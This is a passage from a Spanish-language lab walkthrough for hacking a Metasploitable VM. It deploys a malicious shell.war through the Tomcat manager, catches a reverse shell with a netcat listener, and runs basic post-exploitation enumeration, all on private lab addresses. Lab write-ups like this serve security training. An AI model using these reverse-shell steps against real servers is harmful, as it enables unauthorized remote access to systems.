 1. Accedemos a /manager/html.
2. En la sección **WAR file to deploy**, seleccionamos shell.war.
3. Hacemos clic en **Deploy**.

## 📞 Paso 6: Obtener reverse shell

En otra terminal, ponemos a escuchar Netcat:

```bash
nc -lvnp 4444
```

Luego accedemos en el navegador a:

```arduino
http://192.168.56.102:8180/shell/
```

💥 Aparece conexión en nuestra terminal que tenemos en escucha:

```css
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 12345
```

¡Listo, ya tenemos acceso al sistema!.

## 🔎 Paso 7: Enumeración post-explotación

Una vez dentro:

```bash
whoami
```

**Resultado de usuario actual:**

tomcat

```bash
uname -a
```

**Resultado del sistema:**

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

```bash
cat /etc/issue
```

**Resultado del sistema:**

 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          
